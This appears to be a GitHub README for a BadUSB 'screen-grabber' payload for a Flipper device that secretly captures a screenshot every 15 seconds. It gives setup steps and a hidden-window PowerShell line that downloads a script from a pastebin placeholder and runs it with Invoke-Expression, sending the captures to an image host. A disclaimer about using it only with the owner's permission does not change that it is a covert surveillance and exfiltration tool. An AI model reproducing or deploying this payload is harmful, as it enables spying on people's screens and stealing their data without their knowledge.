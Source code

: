 # BadUSB screen-grabber
> Only use with permission of the owner of a device. This script is not intended for malicious usage.
## Captures screenshot remotely every 15 seconds

* Modify ssgrab.ps1 and change `API KEY` to the API key you can find on https://imgbb.com/api
* Upload ssgrab.ps1 to pastebin
* Modify `powershell -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadString('PASTEBIN LINK') | Invoke-Expression` in payload.txt so that it has your pastebin link as raw and upload to Flipper

